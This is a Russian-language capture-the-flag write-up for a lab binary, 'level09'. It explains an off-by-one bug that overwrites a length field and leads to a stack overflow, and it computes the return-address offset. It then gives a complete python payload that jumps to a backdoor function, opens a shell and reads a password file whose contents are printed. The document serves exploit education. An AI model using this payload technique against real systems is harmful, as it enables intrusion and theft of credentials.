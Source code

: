 ## Level09

Мы замечаем, что функция `set_username` копирует на один байт больше, чем есть место в буфере `msg->usr`, из-за использования нестрогого сравнения в критерии останова петли `for`.

Мы можем перезаписать верхний байт значения `msg->len`, который следует за буфером. Это открывает возможность для `buffer-overflow` атак при последующем вызове 
```cpp
strncpy(msg->text, buf, msg->len);
```

Наша цель -- перенаправить контроль к функции `secret_backdoor`. Нас может спутить то, что программа была скомпилирована с флагом PIE, как показывает утилита `checksec`
```sh
$ checksec --file /home/users/level09/level09
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
```

Обычно это означало бы, что нам необходимо найти base-address offset, который бы отличался между  запусками программы. Однако нам повезло, что на нашей машине глобально выключен ASLR, из-за чего адреса памяти остаются всегда одинаковы, несмотря на PIE:
```sh
$ cat /proc/sys/kernel/randomize_va_space
0
```

C помощью [Binary Ninja](https://cloud.binary.ninja) мы находим, что структура `msg` находится по адресу `$rbp - 0xc0`. Прибавляя восемь байт для сохраненного на стеке значения `$rsp`, мы получаем, что растрояние между началом буфера `msg->text` и записанным значением `$rip` равно

```
0xc0 + 8 = 200 
```

Наконец, согласно gdb адрес функции `secret_backdoor` после выгрузки программы равен `0x000055555555488c`

Итого,
```sh
$ (python -c "print 'a'*40 + '\xff' + '\n' + 'a'*200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1] + '\n' + '/bin/sh'"; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa?>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```




